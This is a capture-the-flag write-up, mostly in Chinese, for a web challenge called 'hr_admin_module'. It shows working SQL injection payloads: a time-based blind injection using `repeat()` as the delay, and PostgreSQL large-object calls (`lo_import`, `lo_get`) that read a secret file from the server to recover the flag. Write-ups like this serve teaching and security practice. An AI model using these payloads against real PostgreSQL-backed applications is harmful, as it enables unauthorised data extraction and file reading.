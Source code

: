 # hr_admin_module

Solved: 3

<br>

這題是這場我花最多時間的 web 題，不過還蠻好玩的，發現很多新招XD

首先是 SQL Injection:

從 `user_search` 參數可以發現 SQL Injection 特徵

當我輸入不合 SQL 語法時，會噴 Warning ，但他是第二次 Request 才會顯示

e.g. 

- 有warning: `admin'` or `admin'-` ...

- 沒warning: `admin'--` or `admin''` or `admin' and 1=2 --` ...

而且這題似乎擋了很多東西，`pg_sleep`無法用，`dblink`簡單踹一下似乎也沒dns request (但賽後才知道好像其實可以?)

後來就發現 `repeat()` 可以讓 Server 卡住 

e.g. `'and 1=2 union select NULL, (select case when 1=1 then (select repeat('a', 10000000)) else NULL end)--`

所以我們就有了 Time-based 的 SQL Injection

先撈一些基本資訊:

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
current_query: SELECT * FROM searches WHERE search = 'YOUR_INPUT'
```

但撈了一整天，DB 裡面沒啥可用的東西，`pg_read_file` , `pg_ls_dir` 等函數也都不能用

可是 `/var/lib/postgresql/data/secret` 這個 path 很明顯是 default data directory

所以應該還是有辦法能讀檔

猜測是要找到某個沒被限制的函數去讀檔

找了無數個小時，還翻了postgres src

最後我在本機 local 端，試著找所有包含`read`的function: 

`SELECT proname FROM pg_proc WHERE proname like '%read%';`

=>

```
 loread
 pg_stat_get_db_blk_read_time
 pg_read_file_old
 pg_read_file
 pg_read_file
 pg_read_file
 pg_read_binary_file
 pg_read_binary_file
 pg_read_binary_file
```

最後找到 `lo_import`, `lo_read`, `lo_open`, ... 這系列的 function

https://www.postgresql.org/docs/11/lo-funcs.html

`lo_import` 可以把檔案載入進 Object 中

遠端測試: `lo_import('/var/lib/postgresql/data/secret')`

有回傳一個 OID 回來，所以代表 flag 有成功載入進去

接著用 `lo_get(OID)`，把這個 OID 對應的 Object 讀出來就行

```
select cast(lo_import('/var/lib/postgresql/data/secret') as text)
=> 18440

select cast(lo_get(18440) as text)
=> \x66627b4040646e....
```


`fb{@@dns_3xfil_f0r_the_w1n!!@@}`

(it looks like this is unintended solution :p)

